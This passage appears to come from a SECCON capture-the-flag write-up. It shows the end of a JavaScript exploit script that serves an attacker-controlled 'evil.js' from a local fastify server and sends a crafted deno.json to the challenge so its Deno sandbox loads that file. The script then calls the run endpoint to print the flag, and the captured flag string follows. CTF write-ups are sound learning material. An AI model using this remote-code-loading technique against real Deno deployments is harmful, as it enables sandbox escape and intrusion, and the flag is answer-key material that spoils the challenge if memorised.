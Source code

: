 ```javascript
    method: "POST",
    headers: {
      "Content-Type": "application/json",
    },
    body: JSON.stringify({
      input: denoJson,
    }),
  });

  const flag = await (
    await fetch(`${SECCON_BASE_URL}${path}/run`, {
      method: "POST",
      headers: {
        "Content-Type": "application/json",
      },
      body: JSON.stringify({
        input: "",
      }),
    })
  ).text();

  console.log(flag);
};

const start = async () => {
  const evilJs = fs.readFileSync("evil.js").toString();
  fastify.get("/evil.js", async (req, reply) => {
    return evilJs;
  });

  fastify.listen(
    { port: LISTEN_PORT, host: "0.0.0.0" },
    async (err, address) => {
      if (err) fail(err);

      await sleep(1000);
      await exploit();
      fastify.close();
    }
  );
};
start();
```

### Flag

```
SECCON{thE_denO_masc0t_dino5auR_staNding_in_tHe_s4ndbox}
```

ref. https://github.com/denoland/deno/blob/v1.27.1/README.md?plain=1#L6
